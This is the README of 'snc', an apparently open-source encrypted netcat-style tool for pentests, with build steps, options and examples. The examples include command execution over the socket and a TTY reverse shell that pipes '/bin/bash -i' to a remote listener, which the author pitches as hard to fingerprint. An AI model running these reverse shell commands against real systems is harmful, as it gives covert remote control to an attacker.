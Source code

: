snc
===
Something that always bothered me about `netcat` is the fact that it doesn't implement encryption.
Something that always bothered me about `cryptcat` is the fact that it doesn't implement command
execution. Something that always bothered me about SSH and SCP is the fact that they're just too
complex for simpler use cases (specially during pentests) and easily fingerprintable.

Motivated by that, this tool aims to combine the best of each in a single place, from simple raw
data channels to fully interactive TTY reverse shells. Connections are encrypted with AES-128 by
default but another key size can be set in `src/include/aes.h`. More on `snc`'s inner workings are
detailed [here](https://github.com/hiatus/snc/blob/main/doc/PROTOCOL.md) for those interested.


Compilation
------------
```bash
$ git clone https://github.com/hiatus/snc.git
$ cd snc && make
```

Usage
-----
```
snc [options] [host]? [port]
	-h           this
	-v           display connection information
	-n           disable DNS resolution
	-r           set terminal to raw mode during the connection
	-f           fork before connecting
	-e [argv]    execute [argv] and pipe it's IO to the connection socket
	-E [argv]    execute [argv] in a TTY and pipe it's IO to the connection socket
	-d [char]    use [char] as string delimiter for [argv]
	-k [pass]    use the string [pass] as AES key
	-K [file]    use the file [file] as AES key
	-i [file]    read input from [file] instead of stdin
	-o [file]    write output to [file] instead of stdout
	-w [secs]    set a timeout of [secs] seconds for idle connections

	Notes:
		- When [host] is not provided, snc acts as server listening on port [port].
		- Option -d is useful when [argv] has arguments containing spaces.
```

Examples
--------
Some example use cases.

- **Raw Data Channel** \
	Server
	```bash
	user@server:~$ snc -vK key.bin 12345
	[snc] Listening on port 12345
	[snc] Connection from 192.168.0.3:41184
	Hello, server.
	Hello, client.
	Farewell, client.
	user@server:snc$
	```

	Client
	```bash
	user@client:~$ snc -K key.bin 192.168.0.2 12345
	Hello, server.
	Hello, client.
	Farewell, client.
	user@client:~$
	```

- **File Transfer** \
	Server
	```bash
	user@server:~$ snc -vk password -i message.txt 12345
	[snc] Listening on port 12345
	[snc] Connection from 192.168.0.3:53130
	user@server:~$
	```

	Client
	```bash
	user@client:~$ snc -k password 192.168.0.2 12345
	Message content.
	user@client:~$
	```

- **Command Output Transfer** \
	Server
	```bash
	user@server:~$ snc -vk password -e '/bin/echo Hello' 12345
	[snc] Listening on port 12345
	[snc] Connection from 192.168.0.3:37480
	user@server:~$
	```

	Client
	```bash
	user@client:~$ snc -k password 192.168.0.2 12345
	Hello
	user@client:~$
	```

- **TTY Reverse Shell** \
	Server
	```bash
	user@server:~$ snc -rk password 12345
	user@client:~$ whoami
	user
	user@client:~$ exit
	exit
	user@server:~$
	```

	Client
	```bash
	user@client:~$ snc -vk password -E '/bin/bash -i' 192.168.0.2 12345
	[snc] Connecting to 192.168.0.2:12345
	[snc] Connected
	user@client:~$
	```
